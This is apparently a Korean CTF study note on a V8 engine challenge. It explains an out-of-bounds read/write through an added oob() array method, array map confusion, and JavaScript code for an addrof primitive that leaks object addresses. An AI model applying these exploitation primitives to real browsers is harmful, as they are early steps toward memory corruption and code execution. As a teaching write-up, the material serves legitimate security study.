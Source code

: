 - 배열의 크기를 index로 사용해서 oob read, write가 발생한다. (index는 0부터 시작하니까)
- 인자가 없을 때 read 기능, 하나 있을 때 write 기능을 한다.
  - 코드 상에선 인자가 한 개일 때 read 기능을 한다고 나와있는데 기본적으로 들어있는 인자가 있기 때문이다.

```jsx
a = [1.1]
a.oob()       // oob read
a.oob(0x1234) // oob write
```

---

## 데이터가 저장되는 구조

![Untitled](https://user-images.githubusercontent.com/43925259/90337390-26ed9800-e01d-11ea-930d-016e8c91b55c.png)

- a = [1.1, 1.2, 1.3, 1.4]
- gdb로 디버깅 해보면 +1 되어 있는 값들이 많은데 주소 값들은 +1이 되어 있기 때문에 1을 빼서 확인해야 한다.
- oob 함수를 이용하면 한 칸이 oob가 발생하는데 1.4 이후에 오는 값은 map이기 때문에 map을 읽거나 map을 수정할 수 있다.

---

## addrof

```jsx
var obj = {"A":1};
var obj_arr = [obj];
var float_arr = [1.1, 1.2, 1.3, 1.4];
var obj_arr_map = obj_arr.oob();
var float_arr_map = float_arr.oob();

function addrof(in_obj) {
    obj_arr[0] = in_obj;
    obj_arr.oob(float_arr_map);
    let addr = obj_arr[0];
    obj_arr.oob(obj_arr_map);

    return ftoi(addr);
}
```

- 한마디로 표현하자면 내가 인자로 넣은 object array의 주소를 리턴해준다.
- 위 코드의 동작은 다음과 같다.
  1. object array의 map을 float array map으로 변경한다.
  2. array의 0번째 요소를 리턴한다.
- 예를 들어 A라는 object array 있을 때 addrof(A)를 하게 되면 원래라면 A의 주소를 참조해서 해당 값을 출력해야 하는데, Float로 변경했기 때문에 A object의 주소가 출력됨

```jsx
a = [1.1]
b = [a]

console.log(b[0])
// 1.1 (a의 값)

console.log(addof(b))
// 11664137449329 (a의 주소)
```

---